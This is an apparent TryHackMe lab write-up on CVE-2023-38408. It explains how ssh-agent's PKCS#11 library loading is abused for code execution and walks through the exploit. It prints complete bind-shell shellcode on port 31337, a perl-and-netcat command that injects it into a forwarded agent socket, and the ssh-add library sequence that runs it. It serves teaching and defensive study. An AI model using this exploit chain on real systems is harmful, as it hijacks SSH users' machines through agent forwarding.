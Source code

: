 # CVE-2023-38408

**Room Link:** [https://tryhackme.com/r/room/cve202338408](https://tryhackme.com/r/room/cve202338408)

## Background Info

Initially, ssh-agent allowed loading any shared library without filtering, leading to security concerns. In response to CVE-2016-10009, an allow-list (`/usr/lib*/,/usr/local/lib/` by default) was added to limit library loading. However, it is possible to abuse the side effects of the library's constructors (`dlopen`) and destructors (`dlclose`) to manipulate memory and control the program flow.

Code execution can be achieved by making the stack executable, registering a signal handler for `SIGSEGV` and manipulating its code, replacing the signal handler's code with code from another library, triggering a `SIGSEGV`, and replacing his handler's code to finally jump into the stack where the shellcode is stored.

The following paragraphs will present the detailed steps:

**1. Making the Stack Executable:**

Leveraging `dlopen()` to load one of the libraries grants the ability to make the stack memory region (specifically the target process `ssh-pkcs11-helper`'s stack) executable. This allows bypassing the usual protection against executing code on the stack.

**2. Copy the shellcode to the stack:**

Once the shellcode is generated, typically using tools like Metasploit, it can be copied to the stack memory using the socket generated from the SSH connection. The shellcode is also combined with a `NOP sled` which is a sequence of No-Operation assembly instructions. The reason why is to provide a larger target for the program execution flow to land on during the gadget execution.\


To verify whether the process has the desired executable flag, you can use the following commands in dbg, a Linux debugger. You can repeat the next few gdb commands once you have gained access as alice:\


First, obtain the PID of the process ssh-pkcs11-helper.

1. Attach dbg to the target process using its PID.
2. Use the command info proc mapping to examine the memory mappings of the process.
3. Look for the memory region corresponding to the stack, and check its flags, marked as rwx.\


**Terminal**

```shell-session
alice@workstation:~$ ps -aux | grep pkcs11-helperalice
1522 0.0 0.2 7788 5520 ? S 09:22 0:00 /usr/lib/openssh/ssh-pkcs11-helper
alice@workstation:~$ sudo gdb -p 1522
[snip]
29 ../sysdeps/unix/sysv/linux/poll.c: No such file or directory. (gdb) info proc mappings process 1522 Mapped address spaces:
Start Addr End Addr Size Offset Perms objfile
[snip]
0x7ffc7a83b000 0x7ffc7a85c000 0x21000 0x0 rwxp
[stack]
0x7ffc7a9df000 0x7ffc7a9e3000 0x4000 0x0 r--p
[vvar]
0x7ffc7a9e3000 0x7ffc7a9e5000 0x2000 0x0 r-xp
[vdso]
0xffffffffff600000 0xffffffffff601000 0x1000 0x0 --xp 
[snip]
```

Using gdb, you can verify whether the stack has the shellcode loaded by inspecting its content.\


Regarding the command `$rsp+10100`, it is an expression that references a specific memory location relative to the stack pointer (`$rsp`). In this case, `$rsp+10100` points to the memory location located 10100 bytes above the stack pointer.\


Observe that it contains a series of NOP (No Operation) instructions followed by the start of the shellcode: `0x31 0xc0 0x48 0x31 0xc0 0xff 0x48`

**Terminal**

```shell-session
(gdb) x/100xgb $rsp+10100
0x7ffc7a85994c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859954: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85995c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859964: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85996c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859974: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85997c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859984: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85998c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a859994: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a85999c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7ffc7a8599a4: 0x90 0x90 0x90 0x90 0x90 0x48 0x31 0xc0
0x7ffc7a8599ac: 0x48 0x31 0xff 0x48
```

\


**3. Registering a Signal Handler:**

To successfully execute arbitrary code within the exploit, a custom signal handler must be registered for the `SIGSEGV` signal. This signal, known as a Segmentation Fault, is triggered when a program attempts to access an invalid memory address. By registering the signal handler, the exploit gains the ability to define a user-defined function that will be executed whenever the `SIGSEGV` signal occurs.

**4. Replacing the Signal Handler's Code:**

At this stage, the exploit leverages the technique of side-loading another library to replace the current signal handler's code with an alternative code segment that will jump to the stack where the shellcode is stored.

To ensure that the code segments of this new library remain mapped in memory even after `dlclose()` is invoked, the library must be marked with the "`Nodelete`" attribute. Ordinarily, when `dlclose()` is called to close a shared library, the library's code segments are unloaded from memory, and any associated resources are released. However, by utilizing the "`Nodelete`" attribute, the attacker prevents the code segments from being unloaded, effectively preserving their existence in memory beyond the `dlclose()` operation. This ensures that the replacement code, responsible for jumping to the shellcode in the stack, remains accessible and functional throughout the exploit's execution.

**5. Triggering SIGSEGV:**

By employing yet another library, the attacker intentionally triggers a `SIGSEGV` signal, which prompts the kernel to execute the custom signal handler previously registered. This strategic step is a critical part of the exploit's progression.

Upon receiving the `SIGSEGV` signal, the kernel recognizes that an invalid memory access has occurred and proceeds to invoke the custom signal handler rather than terminate the program abruptly. By doing so, the attacker seizes the opportunity to manipulate the program's execution and steer it toward the injected malicious code located within the NOP sled.

**6. Executing the Replacement Code:**

By achieving this precise jump into the executable stack, the exploit ensures that the program's execution is directed toward the specific memory location where the shellcode resides.&#x20;



## Exploitation

In this task, we will delve into running the exploit and gaining a more practical understanding of its functionality.\


For this particular scenario, we will be working with two machines: the workstation (a vulnerable instance of Ubuntu 21.04) and another server which is under the attacker's control (Attackbox). To simulate the vulnerable instance, a connection between the workstation and the server has been employed in the previous task. There is a user alice who is connected from the workstation to the attacker using SSH agent forwarding. Alice does this by executing the following commands (so you do not have to):

**Kali**

```
echo /tmp/ssh-*/agent.*
export SSH_AUTH_SOCK=/tmp/ssh-m0jgGsq7Jm/agent.3921
ssh-add -s /usr/lib/systemd/boot/efi/linuxx64.elf.stub
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

To copy the shellcode into the process using the SSH socket, you need to follow these steps:

1. Obtain the `PID` of the SSH agent running on the remote attacker machine.
2. Once you have the socket, use netcat (`nc`) to transfer the shellcode to the agent's memory (workstation).&#x20;
3. After starting the transfer, wait for a few seconds to ensure the shellcode is fully copied into the target memory.
4. Finally, press Ctrl-C to stop the netcat transfer once the shellcode is successfully placed in the agent's memory.

Note that the next command will not use `ssh-add`. Because the malicious payload is around 10KB passphrase and ssh-add has a limit of 1KB.

**Kali**

```
SHELLCODE=$'\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x01\x5e\x6a\x32\x58\x0f\x05\x48\x89\xe6\x48\x31\xc9\xb1\x10\x51\x48\x89\xe2\x41\x50\x5f\x6a\x2b\x58\x0f\x05\x59\x4d\x31\xc9\x49\x89\xc1\x4c\x89\xcf\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05' 


(perl -e 'print "\0\0\x27\xbf\x14\0\0\0\x10/usr/lib/modules\0\0\x27\xa6" . "\x90" x 10000'; echo -n "$SHELLCODE") | nc -U "$SSH_AUTH_SOCK"

^C
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The next step to the exploitation process is register the signal handler for the Segmentation Fault (`SIGSEGV`) signal.

**Kali**

```
ssh-add -s /usr/lib/titan/libttcn3-rt2-dynamic.so
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After successfully registering the custom signal handler for `SIGSEGV`, the next crucial step in the exploitation process is to replace the original signal handler routine with a carefully chosen gadget. This gadget will serve as a means to redirect the program's execution flow and jump into the stack when the SIGSEGV signal is triggered.

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libKF5SonnetUi.so.5.92.0
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, by intentionally causing a segmentation fault, the `SIGSEGV` event can be triggered, executing the shellcode:

**Kali**

```
ssh-add -s /usr/lib/x86_64-linux-gnu/libns3.35-wave.so.0.0.0
```

**Victim**

```
nc localhost 31337
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
